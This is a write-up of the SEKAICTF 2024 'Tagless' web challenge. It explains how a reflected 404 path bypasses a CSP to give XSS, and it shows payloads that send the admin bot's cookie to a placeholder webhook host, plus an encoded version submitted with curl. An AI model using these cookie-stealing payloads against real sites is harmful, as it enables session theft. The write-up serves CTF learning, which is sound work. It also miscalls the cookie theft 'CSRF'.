 ```yaml
---
title: SEKAICTF 2024 Web Tagless

categories: [XSS, Web Pentest, CTF, Web, CSRF]

tags: [XSS, CSRF, Web, Pentest, Cookie, CTF]

image: /assets/img/uploads/sekai.png

---
```

# The Story
Another week , another ctf , this time i was abit occupied with some issues , only managed to join after the CTF ended.
# TLDR 
404 -> XSS -> Bypass CSP -> CSRF

## index.html
```html
<script src="/static/app.js">
```
mainpage of the website , nothing special other than this line at the bottom

## app.js
```js
function sanitizeInput(str) {
    str = str.replace(/<.*>/igm, '').replace(/<\.*>/igm, '').replace(/<.*>.*<\/.*>/igm, ''); 
    return str;
}
```
looks like XSS payload is sanitized 

## app.py
```js
@app.after_request
def add_security_headers(resp):
    resp.headers['Content-Security-Policy'] = "script-src 'self'; style-src 'self' https://fonts.googleapis.com https://unpkg.com 'unsafe-inline'; font-src https://fonts.gstatic.com;"
    return resp
```
looks like CSP is enforced in the header

```js
@app.route("/report", methods=["POST"])
def report():
    bot = Bot()
    url = request.form.get('url')
    if url:
        try:
            parsed_url = urlparse(url)
        except Exception:
            return {"error": "Invalid URL."}, 400
        if parsed_url.scheme not in ["http", "https"]:
            return {"error": "Invalid scheme."}, 400
        if parsed_url.hostname not in ["127.0.0.1", "localhost"]:
            return {"error": "Invalid host."}, 401
        
        bot.visit(url)
```
By accessing `/report` , using the parameter `url` and sending a `POST` request , the bot will be called to visit the `url`

```python
@app.errorhandler(404)
def page_not_found(error):
    path = request.path
    return f"{path} not found"
```
looking at `app.py` and notice that error handling page does not have validation for the `invalid path` 

Example : 
```bash
curl https://tagless.chals.sekai.team/notexist
/notexist not found 
```

## bot.js
```js
   def visit(self, url):
        self.driver.get("http://127.0.0.1:5000/")
        
        self.driver.add_cookie({
            "name": "flag", 
            "value": "SEKAI{dummy}", 
            "httponly": False  
        }) 
```
Here is where the flag is stored , inside a cookie and `httponly` is `False` which suggests that we can do `CSRF` since `httponly` normally set to `true` to prevent execuring js against the cookie

## What we have so far
- Injection point at -> 404
- post request contain manipulatable `url` that the bot will visit
## Issue
- CSP blocked js access

## CSP Bypass
```python
script-src 'self'; style-src 'self' https://fonts.googleapis.com https://unpkg.com 'unsafe-inline'; font-src https://fonts.gstatic.com;
```
**script-src :** limit js only can access from root domain directory  

**style-src :** this limit css only can load from google css

**unsafe-inline:** This allows the use of inline resources, such as inline `<script>` elements, javascript: URLs, inline event handlers, and inline `<style>` elements. 

**font-src :** font only can load from google

Reference : [github](https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques)

Example : 
```js
<script src=/script.js>
```

Online tool to check CSP
```
1. https://csp-evaluator.withgoogle.com/
2. https://cspvalidator.org/
```

![image](https://github.com/user-attachments/assets/c20185ec-1ea1-4404-9999-207bc54879b4)



## Crafted Payload Attempt 1

```js
<script src="/alert(document.domain)"></script>
```
technically this one should work since `/` is within domain directory

![[Pasted image 20240827035604.png]]
but we get this `Uncaught SyntaxError: unterminated regular expression literal` message

## Another Issue
```python
return f"{path} not found"
```
404 handler will return our input in `path` like this :

```js
/alert(1) not found
```
The `/` and `not found` makes our js invalid

## Crafted Payload Attempt 2
```js
<script src="/**/alert(document.domain)//"></script>
```
- Adding `/**/` in the front will comment out the `/`  
- Adding `//` at the end will comment the rest of the code effectively neglecting `not found`

Heres how the rendered payload will look like
```
//**/alert(document.domain)// not found
```
and with this we have a self reflected XSS

## CSRF Payload 
```js
<script src="/**/fetch(`https://webhook-link/?c=${document.cookie}`)//"></script>
```

## Final payload to send to admin

Before Encoding
```html
http://127.0.0.1:5000/<script src="/**/fetch(`https://webhook-link/?c=${document.cookie}`)//"></script>
```

Js compressor
https://jscompress.com/

Script to encode to ASCII
```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('<script src="/**/fetch(`https://webhook-link/?c=${document.cookie}`)//"></script>')
console.log(encoded)

// Note : this script intended to be run from browser console tool
```
paste the compressed code into the `encode_to_javascript('compressed-code-here')`

```html
http://127.0.0.1:5000/<script src="/**/eval(String.fromCharCode(60,115,99,114,105,112,116,32,115,114,99,61,34,47,42,42,47,102,101,116,99,104,40,96,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,45,108,105,110,107,47,63,99,61,36,123,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,96,41,47,47,34,62,60,47,115,99,114,105,112,116,62))>
```
Send this to the admin bot page that ask for url

Sending it using `POST` 
```bash
curl -X POST https://tagless.chals.sekai.team/ -d 'http://127.0.0.1:5000/<script src="/**/eval(String.fromCharCode(60,115,99,114,105,112,116,32,115,114,99,61,34,47,42,42,47,102,101,116,99,104,40,96,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,45,108,105,110,107,47,63,99,61,36,123,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,96,41,47,47,34,62,60,47,115,99,114,105,112,116,62))>'
```

Wait at webhook for a while and we get cookie flag response
```
SEKAI{w4rmUpwItHoUtTags}
```
